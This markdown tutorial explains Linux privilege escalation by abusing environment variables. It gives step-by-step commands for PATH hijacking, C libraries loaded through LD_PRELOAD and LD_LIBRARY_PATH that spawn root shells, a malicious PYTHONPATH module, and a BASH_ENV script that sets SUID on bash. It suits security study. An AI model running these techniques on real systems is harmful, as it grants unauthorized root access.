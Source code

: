 # Environment Variables Abuse

This section covers techniques to exploit environment variables for privilege escalation.

## PATH Variable Manipulation

The PATH environment variable contains a list of directories that are searched when you execute a command. If a program runs with higher privileges and relies on relative paths to execute binaries, it may be vulnerable.

### Checking Current PATH

```bash
echo $PATH
```

### Exploitation Technique

1. Identify a program running with elevated privileges that calls another program without specifying the full path:

```bash
# For example, a SUID binary that uses system("service apache2 start")
strings /path/to/suid_binary
ltrace /path/to/suid_binary
```

2. Create a malicious version of the called program in a writable directory:

```bash
cd /tmp
echo '#!/bin/bash' > service
echo 'chmod +s /bin/bash' >> service
chmod +x service
```

3. Modify the PATH variable to include your directory first:

```bash
export PATH=/tmp:$PATH
```

4. Run the vulnerable SUID program, which will execute your malicious version instead:

```bash
/path/to/suid_binary
# After this runs, check if /bin/bash now has the SUID bit
ls -l /bin/bash
/bin/bash -p
```

## LD_PRELOAD and LD_LIBRARY_PATH

These environment variables control which shared libraries are loaded when a program runs.

### LD_PRELOAD

LD_PRELOAD allows you to load a custom shared library before all others. If you can control this while running a command with sudo, you can potentially escalate privileges.

1. Check if LD_PRELOAD is preserved with sudo:

```bash
sudo -l
# Look for env_keep+=LD_PRELOAD
```

2. Create a malicious shared library:

```bash
cat << EOF > /tmp/evil.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    if (geteuid() == 0) {
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
    }
}
EOF

gcc -fPIC -shared -o /tmp/evil.so /tmp/evil.c -nostartfiles
```

3. Use LD_PRELOAD with sudo to execute a command:

```bash
sudo LD_PRELOAD=/tmp/evil.so find
```

### LD_LIBRARY_PATH

LD_LIBRARY_PATH specifies directories where the program should look for libraries. This can be abused if a program searches for libraries in a specific order.

1. Check if a SUID binary uses shared libraries:

```bash
ldd /path/to/suid_binary
```

2. Create a malicious library with the same name as one of the used libraries:

```bash
cat << EOF > /tmp/evil.c
#include <stdio.h>
#include <stdlib.h>

void function_name() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
}
EOF

gcc -fPIC -shared -o /tmp/libname.so.1 /tmp/evil.c
```

3. Set LD_LIBRARY_PATH to your directory:

```bash
export LD_LIBRARY_PATH=/tmp
```

4. Execute the SUID binary:

```bash
/path/to/suid_binary
```

## Sudo Environment Variables

Sudo may preserve certain environment variables, which can be abused if misconfigured.

### Check Preserved Variables

```bash
sudo -l
# Look for env_keep entries
```

### Common Exploitable Variables

- `LD_PRELOAD` - As explained above
- `LD_LIBRARY_PATH` - As explained above
- `PATH` - Can lead to executing malicious binaries
- `PYTHONPATH` - Can be used to load malicious Python modules
- `PERL5LIB` - Can be used to load malicious Perl modules

### Example with PYTHONPATH

If you can run a Python script with sudo:

```bash
# Check if you can run a Python script with sudo
sudo -l

# Create a malicious Python module
echo 'import os; os.system("/bin/bash")' > /tmp/evil.py

# Set PYTHONPATH
export PYTHONPATH=/tmp

# Run the Python script with sudo
sudo python -c "import evil"
```

## Shell Environment Variables

Some programs can inherit shell functionality from environment variables:

### BASH_ENV Exploitation

If a SUID binary executes `sh` internally, it might source `BASH_ENV`:

```bash
cat << EOF > /tmp/script.sh
chmod +s /bin/bash
EOF
chmod +x /tmp/script.sh
export BASH_ENV=/tmp/script.sh
/path/to/suid_binary  # If this runs sh internally
```

## Additional Resources

- [HackTricks - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [GTFOBins](https://gtfobins.github.io/) - Unix binaries that can be exploited
- [Linux Privilege Escalation - Environment Variables](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) 